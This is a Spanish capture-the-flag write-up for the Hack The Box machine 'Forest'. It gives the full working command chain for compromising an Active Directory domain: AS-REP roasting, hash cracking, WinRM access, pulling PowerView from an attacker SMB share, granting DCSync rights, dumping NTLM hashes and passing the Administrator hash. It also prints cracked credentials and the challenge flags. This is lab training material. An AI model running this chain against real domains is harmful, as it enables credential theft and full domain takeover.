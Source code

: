 Máquina: Forest
Dificultad: Easy


``sudo nmap 10.10.10.161 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``

![Pasted image 20250313124032](https://github.com/user-attachments/assets/cce45e1d-40db-41e1-8c41-31f49d98e1b7)


``nmap 10.10.10.161 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49684,49703 -oN target``

![Pasted image 20250313124107](https://github.com/user-attachments/assets/24248001-b40c-41af-8833-7fe81a49fb73)

domain: htb.local

Vamos a ver un poco más del DC:
``netexec smb 10.10.10.161``

![Pasted image 20250313124206](https://github.com/user-attachments/assets/a171a0fe-eadb-4794-b73e-f08fe7ad8bed)


La máquina se llama FOREST. Y confirmamos que el dominio es htb.local

-> /etc/hosts
![Pasted image 20250313124246](https://github.com/user-attachments/assets/808e346e-b59b-469b-bc41-74a39863a464)


Para enumerar los usuarios del dominio, podemos conectarnos por RPC con null sesion:

``rpcclient -U '' 10.10.10.161 -N``
-> enumdomusers
![Pasted image 20250313124508](https://github.com/user-attachments/assets/f2d07d2e-cab3-43c2-827e-d09b253a340b)


Para guardarnos este listado de usuarios y después hacer el correspondiente tratamiento de los datos, vamos a redirigir el output a users.txt

``rpcclient -U '' 10.10.10.161 -N -c 'enumdomusers' > users.txt``

Si miramos el contenido de users.txt, es exactamente lo mismo que el output que vimos anteriormente:

![Pasted image 20250313124641](https://github.com/user-attachments/assets/a4943d5f-f491-47e0-a0e4-004033203c96)


Vamos a hacer un tratamiento a los datos para quedarnos sólo con lo que está entre los corchetes:

``cat users.txt | cut -d '[' -f2 | cut -d ']' -f1 > realusers.txt``

![Pasted image 20250313124825](https://github.com/user-attachments/assets/1d620372-a277-4da3-885a-d611c20c18ef)



Con este listado de usuarios, y aunque no tengamos sus contraeñas, podemos, por ejemplo, intentar ASREPROAST:

``impacket-GetNPUsers -no-pass -usersfile realusers.txt htb.local/ -output hashes.asreproast ``

-> Bingo.

![Pasted image 20250313125028](https://github.com/user-attachments/assets/d2280ce8-d54e-48c7-8da0-d86470d4c5bc)


Como hemos redirigido el output a hashes.asreproast, no hace falta que nos copiemos el contenido del hash.

Vamos a utilizar hashcat para romper este hash. Primero, vamos a averiguar el código de identificación de este tipo de hash (``krb5asrep$23$``) para hashcat:

``hashcat --help | grep -i "kerberos"``

![Pasted image 20250313125209](https://github.com/user-attachments/assets/860c0728-affe-4957-ba93-2a035d275079)


Una vez sabemos el código de identificación, tiramos hashcat con rockyou.

``hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force ``

![Pasted image 20250313125311](https://github.com/user-attachments/assets/2edaa5b0-c00a-480b-9fee-54b11f98b717)


svc-alfresco:s3rvice

Vamos a validar las credenciales:
``netexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'``

![Pasted image 20250313125410](https://github.com/user-attachments/assets/128cd2ac-ff87-4b95-9049-cf613249ad34)


Son credenciales válidas. Vamos a comprobar si permite winrm.

![Pasted image 20250313125504](https://github.com/user-attachments/assets/2d8ae864-fc25-4152-8595-1cc9c52a1144)

Pwn3d!, por lo que podemos conectarnos vía winRM.

``evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'``

![Pasted image 20250313125644](https://github.com/user-attachments/assets/47f4700b-7614-4d4b-bbc9-df7850c80efb)


Estamos dentro de la máquina víctima con el usuario svc-alfresco.

En C:\Users\svc-alfresco\Desktop encontramos la flag de usuario:

![Pasted image 20250313125828](https://github.com/user-attachments/assets/a26fde34-e3c4-485a-9b36-1956ec5ff78d)


user.txt = bf0f56f595904036ffb277db1f60f15a


# PRIVESC

Vamos a compartir bloodhound para ayudarnos en la escalada de privilegios.
-> arrancamos neo4j
``sudo neo4j start
-> arrancamos bloodhound
``bloodhound --no-sandbox &>/dev/null & disown``
Introducimos las credenciales de bloodhound.

Como en este escenario en concreto la víctima tiene el servicio DNS activado, podemos enumerar vía bloodhound-python:

``bloodhound-python -u 'svc-alfresco' -p 's3rvice' -d htb.local -c all -ns 10.10.10.161``
![Pasted image 20250313132042](https://github.com/user-attachments/assets/a501cfe5-18a0-4dec-9bfb-bcb513ea0dfc)


Una vez hemos generado todos los archivos .json, los subimos desde bloodhound:
![Pasted image 20250313132148](https://github.com/user-attachments/assets/2d05891f-5425-46dd-a4c2-38b7c979b0d7)


![Pasted image 20250313132228](https://github.com/user-attachments/assets/056be20a-6cc5-487a-9660-472a12621384)


Una vez se ha subido correctamente toda la data, buscamos al usuario que tenemos pwneado: svc-alfresco
![Pasted image 20250313132326](https://github.com/user-attachments/assets/be0bc300-fd50-490b-a1bf-87cbc8e7d389)


Y lo marcamos como owned:
![Pasted image 20250313132345](https://github.com/user-attachments/assets/236a4cbf-27f6-45f4-891c-55b622b912b7)

Si miramos la información del nodo de svc-alfresco, apartado Reachable High Value Targets, vemos:
![Pasted image 20250313145534](https://github.com/user-attachments/assets/507067a7-9fe9-4f23-b09d-593973a8d8a5)


svc-alfresco forma parte de "Service Accounts", que a su vez forma parte de "Privileged It Accounts", que a su vez forma parte de "Account Operators".

Si miramos la información del nodo de "Account Operators" + Reachable High Value Targets:
![Pasted image 20250313145759](https://github.com/user-attachments/assets/8eac1c8b-5880-47fb-9c6e-29920d985cf0)


Vemos que Accounts Operators tiene GenericAll sobre Exchange Windows Permissions, que a su vez tiene WriteDacl sobre el dominio htb.local:

Click derecho -> help
![Pasted image 20250313145841](https://github.com/user-attachments/assets/754baee3-e13f-44b3-94ce-1839898e69a6)


GenericAll sobre Exchange Windows Permissions:
![Pasted image 20250313145901](https://github.com/user-attachments/assets/377eeedf-f904-4fc7-9510-40c5441ef6f1)


WriteDacl sobre el dominio:
![Pasted image 20250313153133](https://github.com/user-attachments/assets/9dd7375f-0129-49da-94cb-4e7eb4c7cf98)


En el apartado "Windows Abuse" nos explica el paso a paso.
Para poder abusar de este privilegio a través de Add-DomainObjectAcl tenemos que compartir la herramienta powerview.ps1, para ello:

- En máquina atacante abrimos smbserver (en el directorio donde tengamos powerview.ps1):
``impacket-smbserver -smb2support test .``

- Solicitamos el recurso desde máquina víctima:
``copy //10.10.14.4/test/powerview.ps1 powerview.ps1``

Una vez ya lo tenemos en la máquina víctima, comenzamos.

Creamos usuario pwn:
![Pasted image 20250313155139](https://github.com/user-attachments/assets/ac343399-b976-450b-b7b6-e9dcf5a596c8)


Le metemos en el grupo "Exchange Windows Permissions"
![Pasted image 20250313155200](https://github.com/user-attachments/assets/7d6bbb74-0109-4c93-9bda-3dad81c731ee)


Y seguimos los comandos propuestos por Bloodhound, pero adaptados a nuestro escenario (dominio y usuario):

```
$SecPassword = ConvertTo-SecureString 'pwned123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\pwn', $SecPassword)
```

Importamos powerview.ps1 para poder hacer uso de Add-DomainObjectAcl:
``. .\powerview.ps1``

Otorgamos privilegios DCSync al usuario pwn:
``Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity pwn -Rights DCSync``

Inciso.
	Aquí bloodhound propone ejecutar el anterior comando identificando al dominio (htb.local) de la siguiente forma: ``-TargetIdentity htb.local``. Sin embargo, cuando se realiza el ataque de DCSync desde el usuario pwn, nos salta error mencionando el Distinguised name.
	Error:
		![Pasted image 20250313163246](https://github.com/user-attachments/assets/dfff53eb-9410-4895-9bee-2b3e77d1259e)

	Y aunque se utilice -use-vss como nos propone, nos da acceso denegado:
	![[Pasted image 20250313163310.png]]

Esto se soluciona identificando al dominio como:
``-TargetIdentity "DC=htb,DC=local"``
![Pasted image 20250313163310](https://github.com/user-attachments/assets/deb76d59-7261-43ff-8c98-daaff6742a9e)



Una vez el usuario pwn tiene el privilegio DCSync, lo explotamos vía impacket para volcar todos los hashes NTLM:

``impacket-secretsdump htb.local/'pwn':'pwned123!'@'10.10.10.161'``
![Pasted image 20250313161100](https://github.com/user-attachments/assets/3b495c41-27ef-4da6-969b-247e2b320e59)


Nos aparecen todos los hashes NTLM, pero a nosotros nos interesa especialmente el del usuario Administrator.

Validamos el hashNTLM con netexec:
``netexec smb 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'``
![Pasted image 20250313161236](https://github.com/user-attachments/assets/8c11b46c-783e-43c3-9115-002f084c3a39)

Listo.

Dado que conocemos el hash NTLM válido de Administrator, y como nos pone Pwn3d, podemos ingresar vía psexec (para acceder como NTAuthority\System) o wmiexec (para acceder como Adminsitrator), o winRM a través de la técnica Pass The Hash.

- psexec:
``impacket-psexec Administrator@10.10.10.161 -hashes ':32693b11e6aa90eb43d32c72a07ceea6'``
![Pasted image 20250313161653](https://github.com/user-attachments/assets/80c51f5a-09e1-490e-9ae8-648b8df85f29)


- wmiexec: 
``impacket-wmiexec Administrator@10.10.10.161 -hashes ':32693b11e6aa90eb43d32c72a07ceea6'
![Pasted image 20250313161707](https://github.com/user-attachments/assets/dd55e932-5137-458e-ab18-741be72165ec)


- evilwinrm:
Primero deberíamos validar que nos podemos conectar por winrm
``netexec winrm 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'
![Pasted image 20250313161332](https://github.com/user-attachments/assets/28ecf169-59bd-4be2-b576-882f3bf2057d)


``evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'
![Pasted image 20250313161907](https://github.com/user-attachments/assets/c68e5a25-7f45-461b-8d64-581634adcac7)


Podemos conectarnos a la máquina víctima y elevar privilegios de cualquiera de estas tres formas descritas.

Recogemos la flag de Administrator en C:\Users\Administrator\Desktop\root.txt

![Pasted image 20250313162055](https://github.com/user-attachments/assets/2280f8a3-2bcd-4c19-9dbd-2f5cbab2afa4)


root.txt = fba540a19e1959ee5e4fea99d18e01ce

